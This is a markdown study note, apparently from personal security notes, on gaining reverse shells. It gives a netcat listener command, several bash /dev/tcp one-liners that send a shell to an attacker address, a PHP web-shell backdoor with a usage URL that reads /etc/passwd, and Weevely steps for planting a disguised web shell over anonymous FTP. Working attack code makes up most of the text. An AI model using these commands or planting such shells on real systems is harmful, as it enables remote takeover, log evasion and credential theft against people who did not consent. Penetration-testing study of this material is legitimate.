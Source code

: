 <!--
SPDX-FileCopyrightText: 2023 - 2025 Eli Array Minkoff

SPDX-License-Identifier: CC-BY-SA-4.0
-->

# Reverse Shells

## Reverse Shells

### Simple Socket Reverse Shells

Some of the most basic reverse shells simply open a connection to a socket on the attacker's system, then read commands to run from the socket, and write their output back to it. For the examples in this section, I will assume that the attacker is listening on 192.0.2.231 port 5445.

#### Attacker Side

Run `nc -lvnp 5445` for TCP connections, or `nc -lvnup 5445` for UDP connections

**Explanation**: 

* `-l`: listen instead of initiating a connection
* `-v`: verbose output
* `-n`: do not attempt DNS resolution
* `-u`: use a UDP socket, rather than a TCP socket
* `-p 5445`: port 5445

#### Target Side

There is a list available [at this link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) of many different reverse shells in different languages.

I am including a simple one of them (with the example address and port changed), but for a much greater variety, follow the link above.

```bash
bash -i >& /dev/tcp/192.0.2.231/5445 0>&1

0<&196;exec 196<>/dev/tcp/192.0.2.231/5445; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/192.0.2.231/5445 0<&1 2>&1
```

### PHP reverse shells

On Kali systems, you can find a simple PHP reverse shell with the following contents at /usr/share/webshells/php/simple-backdoor.php:

```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

```

For a fancier web shell with a TTY-like user interface, check out [prakashchand72/Interactive-Php-Reverse-shell](https://github.com/prakashchand72/Interactive-Php-Reverse-shell).

### Weevely

Weevely provides a stealthier reverse shell that won't look like a reverse shell in logs. It can be used in a few steps:

```bash
# set the password
read -s -p "Password: " pass
# generate the executable
weevely generate "$pass" inconspicuous-filename.php
# somehow upload the executable to the target server - if there's anonymous read-write FTP access to a path within the web directory, that might work
printf 'cd upload-dir\nput %s\nexit\n' inconspicuous-filename.php | ftp -a targetserver.example
# connect to the weevely shell
weevely http://targetserver.example/upload-dir/inconspicuous-filename.php "$pass"
```
